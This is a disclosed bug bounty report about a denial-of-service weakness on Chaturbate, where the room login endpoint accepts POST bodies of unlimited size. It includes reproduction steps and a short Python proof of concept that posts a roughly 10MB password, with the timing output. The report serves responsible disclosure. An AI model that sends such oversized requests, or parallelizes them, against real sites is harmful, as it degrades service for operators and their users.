 # Unrestricted POST request size on roomlogin endpoint

## Report Details
- **Report ID**: 418254
- **URL**: https://hackerone.com/reports/418254
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-10-03T14:45:32.783Z
- **Disclosed**: 2018-10-07T14:55:42.685Z

## Reporter
- **Username**: lucach
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: chaturbate

## Vulnerability Information
POST requests to endpoint `/roomlogin/<user>` are not limited in size. While the main website login endpoint correctly limits the size of request, this endpoint does not. This can be a mean to perform a DOS attack.

## Steps To Reproduce:

  1. `<user>` has a password-protected stream.
  2. Send a large POST request to `/roomlogin/<user>` (e.g., a really long password).

## Expected behaviour
HTTP error 413 is promptly returned.

## Actual behaviour
Server reads and processes the whole request, consuming long amounts of time.

## POC
This Python snippet can reproduce the issue. A ~10MB request consumes about 30 seconds of server time. I did not proceed further to avoid disrupting the service and because this attack which can be easily parallelized has itself a pretty serious impact.

```
import requests
url = "https://it.chaturbate.com/roomlogin/█████/"
csrf = "███████"

password_size = 10 * 1000 * 1000
payload = {'password': 'a' * password_size, 'next': '/████/', 'csrfmiddlewaretoken' : csrf}

s = requests.Session()
s.headers.update({'referer': url})
s.cookies.set("csrftoken", csrf)
s.cookies.set("sessionid", "█████████")
r = s.post(url, data=payload)

print r.elapsed
```

```
0:00:40.249484
```

## Suggested resolution steps

- Put a reasonable low limit to request size, as it already happens with main login.
- (Optional) Limit the max-size of input element `#id_password` to 64 characters.

## Impact

DOS of the main website. The attack can be easily parallelized, leading to potentially severe DDOS.

## Attachments
No attachments
